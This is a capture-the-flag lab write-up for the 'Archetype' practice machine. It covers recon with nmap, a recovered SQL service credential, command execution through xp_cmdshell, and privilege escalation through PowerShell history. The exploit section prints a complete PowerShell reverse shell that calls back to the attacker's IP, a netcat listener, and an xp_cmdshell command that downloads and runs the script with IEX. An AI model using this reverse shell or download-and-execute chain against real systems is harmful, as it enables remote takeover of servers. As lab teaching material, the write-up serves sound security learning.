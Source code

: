 ## Recon/Enumeration

nmap -A 10..10.10.27  
![alt text](./img/archetype01.png?raw=true)  
![alt text](./img/archetype02.png?raw=true)  
![alt text](./img/archetype03.png?raw=true)  

Let’s get this file and read it  
![alt text](./img/archetype04.png?raw=true)  

Found a credential:
- User = ARCHETYPE\sql_svc
- Password = M3g4c0rp123

## Exploit

DTConfiguration is part of a SQL Server configuration. So let’s try to connect to it  
![alt text](./img/archetype05.png?raw=true)

We found some tables with the command: “select * from information_schema.tables”. However there is nothing useful inside. So let’s see if we can execute commands here.  
Doing a research we can find something about xp_cmdshell.  
![alt text](./img/archetype06.png?raw=true)

Wow, let’s try to obtain more info about the system (if need to activate xp_cmdshell try this link)  
![alt text](./img/archetype07.png?raw=true)

Now let’s create as reverse shell ps1 file:

> $client = New-Object System.Net.Sockets.TCPClient("10.10.14.7",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1|Out-String);$sendback2=$sendback+"# ";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

After create the file set an http server and a listener:

sudo python3 -m http.server 80  
nc -nvlp 4444  

On the compromised machine run the command:  
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.7/shell.ps1\")"

A shell must appear in the nc listening port.

## Privesc  
Since we are running Powershell, let’s see the command history executed in it  
![alt text](./img/archetype08.png?raw=true)  

Ok, another credential. Let’s try to use it wit smbclient  
![alt text](./img/archetype09.png?raw=true)

## Discovery

